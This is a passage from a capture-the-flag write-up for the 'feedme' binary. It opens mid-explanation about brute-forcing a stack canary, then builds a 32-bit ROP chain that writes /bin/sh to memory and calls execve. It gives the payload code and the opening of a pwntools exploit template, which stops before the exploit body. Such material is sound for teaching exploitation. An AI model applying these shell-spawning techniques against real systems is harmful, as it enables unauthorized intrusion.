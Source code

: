 That funciton will bruteforce the canary.

### Setting up the ropchain
This is almost the same as [simplecalc](./bkp16_simplecalc.md) or [speedrun](./dcquals19_speedrun1.md).  
We will ROP to call execve.  
The only difference is that since registers can only fit 4 characters at a time, we need to write `/bin/sh` to memory in two steps.  
Also in `x86` syscalls are triggered by `int 0x80`.  

```python

#ropchain
payload += p32(pop_eax) + p32(binsh1) #load /bin to eax
payload += p32(pop_edx) + p32(write_addr) #load address to write to
payload += p32(mov_dword_edx_eax) #write /bin to memory

payload += p32(pop_eax) + p32(binsh2) #load /sh to eax
payload += p32(pop_edx) + p32(write_addr+0x4) #load address to write to
payload += p32(mov_dword_edx_eax) #write /sh to memory

payload += p32(pop_eax) + p32(11) #load execve syscall number to eax
payload += p32(pop_ecx_ebx) + p32(0) + p32(write_addr) #load 0 to ecx and pointer to /bin/sh to ebx
payload += p32(pop_edx) + p32(0)
payload += p32(syscall)
```

### Putting it all together
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template feedme
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'feedme')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}
set follow-fork-mode child
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
```